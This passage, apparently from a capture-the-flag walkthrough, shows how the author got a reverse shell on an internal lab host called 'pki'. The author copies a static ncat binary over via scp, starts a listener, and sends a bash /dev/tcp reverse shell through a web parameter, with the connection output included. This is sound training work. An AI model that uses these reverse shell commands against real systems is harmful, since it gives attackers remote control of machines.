 ![](/img/image-20210805081122990.png)

Perhaps there is an outbound firewall rule blocking certain connections.

#### Looking for Tools on pki

To figure out how to create a reverse shell, I need to know what tools
on are pki. Because `which` returns nothing if the tool isn't found in
the current path, I'll use the command
`which [command] || echo "not found"`, so that I can refresh quickly
until I see a path or "not found". I'll start with `id` since that
should be on the box, and it is:

![](/img/image-20210805081425143.png)

`curl` is not:

![](/img/image-20210805081455170.png)

`wget`, `nc`, and `python` are not either. `bash` is at `/bin/bash`.
`python3` and `perl` are both present as well.

#### Shell

web doesn't have `nc`. I'll grab a statically compiled copy from
[here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat),
and `scp` it to web:



    oxdf@parrot$ scp -i ~/keys/static-www-data-172.20.0.10 ncat www-data@172.20.0.10:/tmp/nc
    ncat                                    100% 2846KB   3.8MB/s   00:00



I can't listen on 443 as a non-root user, so I'll pick a high port:



    www-data@web:~$ /tmp/nc -lnvp 4433
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433



I'll first try a Bash reverse shell (with the `&` encoded as `%26` to
not confuse the web request):



    http://127.0.0.1:9001/index.php?a=bash -c 'bash -i >%26 /dev/tcp/192.168.254.2/4433 0>%261'



After a few refreshes, it connected back:



    www-data@web:~$ /tmp/nc -lnvp 4433
    Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
    Ncat: Listening on :::4433
    Ncat: Listening on 0.0.0.0:4433
    Ncat: Connection from 192.168.254.3.
    Ncat: Connection from 192.168.254.3:39820.
    bash: cannot set terminal process group (14): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@pki:~.md$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
